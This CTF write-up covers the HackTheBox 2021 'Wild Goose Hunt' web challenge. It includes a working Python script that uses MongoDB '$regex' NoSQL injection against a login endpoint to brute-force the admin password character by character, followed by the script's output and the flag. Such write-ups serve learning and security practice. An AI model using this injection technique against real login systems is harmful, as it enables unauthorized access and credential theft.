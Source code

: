 ```yaml
---
layout: post
title: HackTheBox CTF Writeup
date: 2021-04-19 01:00 +0700
modified: 2021-04-26 09:45:00 +0700
description:  0x90skids writeups for the 2021 HackTheBox CTF Competition
tag:
  - ctf
  - writeup
image: https://0x90skids.com/htb_ctf_logo.png
author: 0x90skids
summmary: 0x90skids writeups for the 2021 HackTheBox CTF Competition
comments: true
---
```

<img class="img-fluid rounded z-depth-1" src="htb_ctf_logo.png">
>  HackTheBox Cyber Apocalypse 2021 CTF was an event hosted online.
<br>0x90skids recently competed in the competition.

# Categories 

+  [Web](#web)

## Web
### Wild Goose Hunt
**Solved By:** Bib<br>
**Points:** 300<br>
**Flag:** CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}

##### Challenge
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

##### Solution

I first checked the challenge page. I was greeted with a login screen :
<br>
  <img src="images\htb-ctf\wild_goose_hunt_login.png" alt="login screen">
<br>
After looking at the login screen a little bit, I went ahead and looked at the challenge's downloadable source code. I saw that this challenge was using MongoDB and that the flag was the admin password. This means that we need to either get inside the database or login using a NoSQL injection. I've tried different payloads using Burp and finally got one that worked :
<br>
  <img src="images\htb-ctf\wild_goose_hunt_burp.png" alt="burp payload">
<br>
The working payload was found via an article on ([HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)). This article also shows a script that brute-force each character (username or password) using regex. I modified this script to fit the challenge. Here's my final script :
<br>
```python
import requests, string, json, sys

url = "http://178.62.14.240:32507/api/login"
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password():
    print("Bruteforcing password... Please wait!")
    params = {"username":"admin", "password[$regex]":""}
    password = "^CHTB{"
    print(password[1:].replace("\\", ""))
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, verify=False, allow_redirects=False)
            data_raw = json.loads(pr.text)
            data = json.dumps(data_raw, indent=2)
            if "Login Successful" in data:
                password += c
                print(password[1:].replace("\\", ""))
                break
        if c == possible_chars[-1]:
            print("Found password : "+password[1:].replace("\\", ""))

get_password()
```
Here's the output from my script :
```
Bruteforcing password... Please wait!
CHTB{
CHTB{1
CHTB{1_
CHTB{1_t
CHTB{1_th
CHTB{1_th1
CHTB{1_th1n
CHTB{1_th1nk
CHTB{1_th1nk_
CHTB{1_th1nk_t
CHTB{1_th1nk_th
CHTB{1_th1nk_the
CHTB{1_th1nk_the_
CHTB{1_th1nk_the_4
CHTB{1_th1nk_the_4l
CHTB{1_th1nk_the_4l1
CHTB{1_th1nk_the_4l1e
CHTB{1_th1nk_the_4l1en
CHTB{1_th1nk_the_4l1ens
CHTB{1_th1nk_the_4l1ens_
CHTB{1_th1nk_the_4l1ens_h
CHTB{1_th1nk_the_4l1ens_h4
CHTB{1_th1nk_the_4l1ens_h4v
CHTB{1_th1nk_the_4l1ens_h4ve
CHTB{1_th1nk_the_4l1ens_h4ve_
CHTB{1_th1nk_the_4l1ens_h4ve_n
CHTB{1_th1nk_the_4l1ens_h4ve_n0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_u
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_us
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_use
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0n
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
Found password : CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```
Bingo! Interesting challenge that helped me understand NoSQL auth bypass techniques.
<br>
<br>
`CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`